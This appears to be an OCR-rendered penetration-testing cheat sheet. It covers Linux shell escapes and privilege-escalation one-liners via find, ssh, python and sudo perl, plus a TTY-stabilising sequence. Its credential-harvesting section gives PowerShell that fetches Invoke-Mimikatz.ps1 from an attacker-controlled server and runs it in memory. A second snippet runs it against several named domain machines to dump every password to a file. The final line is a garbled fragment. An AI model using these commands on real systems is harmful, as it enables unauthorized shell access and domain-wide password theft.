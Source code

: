 **Using find**

```
find / -name name -exec /bin/sh \;
```

**Using SSH**

if you got ssh credentials you can try sshing with one of the below commands

```bash
ssh username@target -t bash
```

\#OR

```bash
'bash --noprofile'
```

**Using python**

```python
python -c 'import os; os.system('/bin/sh')'
```

**Using perl**

```perl
sudo perl -e 'exec "/bin/bash";'
```

#### Python tty

Necessary for a stable shell.

```python
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
CTRL+Z
stty raw -echo; fg
```

#### Credential Harvesting

Downloading and executing a powershell script in memory ( Mimikatz.ps1 ) to harvest admin password on the targeted domain controller. This script is run directly from the target

```powershell
$browser = New-Object System.Net.WebClient
IEX($browser.DownloadString("http://[your-server-ip]:[port]/Invoke-Mimikatz.ps1"))
invoke-Mimikatz
```

**Running the above script on multiple domain joined machines to harvest all passwords**

```powershell
$browser = New-Object System.Net.WebClient
IEX($browser.DownloadString("http://[your-server-ip]:[port]/Invoke-Mimikatz.ps1"))

invoke-mimikatz -Computer FRSV27, FRSV210,FRSV229, FRSV97 |out-file result.txt -Append

```


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"
